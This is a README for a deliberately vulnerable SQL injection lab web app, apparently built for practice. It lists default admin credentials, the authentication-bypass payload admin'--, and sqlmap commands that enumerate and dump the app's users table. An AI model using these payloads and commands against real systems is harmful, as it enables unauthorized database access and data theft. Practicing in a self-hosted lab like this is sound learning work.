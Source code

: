 # SQL-Injection-Lab
SQL Injection Web App For Practices and Learning Purpose

# Requirement
- Python 3.11 or Above
- Laptop
- Internet Connection

# How to Start Server

- Step.1: Type in Cmd `python3 sql.py`
- Step.2 Open Browser And Type `yourip:5000`
- Step.3 Admin Login Info `admin:admin123`
- Step.4 Use Sql Payload `admin'--` any password

# How to Attack Server
- Step.1: Capture Post Response and Create A File `req.txt`
- Step.2 use Sqlmap for find tables `sqlmap --risk=3 --level=5 --tables --batch`
- Step.3 Now final Dump Entire Databse `sqlmap --risk=3 --level=5 -T users --dump --batch`

# Watch Video For More Information.
[![YouTube Video](https://img.youtube.com/vi/GDlxrAV2v2k/0.jpg)](https://www.youtube.com/watch?v=GDlxrAV2v2k)

# Check Out More [Hacking Course](https://linuxndroid.in)

<br>
<p align="center">Made with ❤️ By <a href="https://www.youtube.com/channel/UC2O1Hfg-dDCbUcau5QWGcgg">Linuxndroid</a></p>
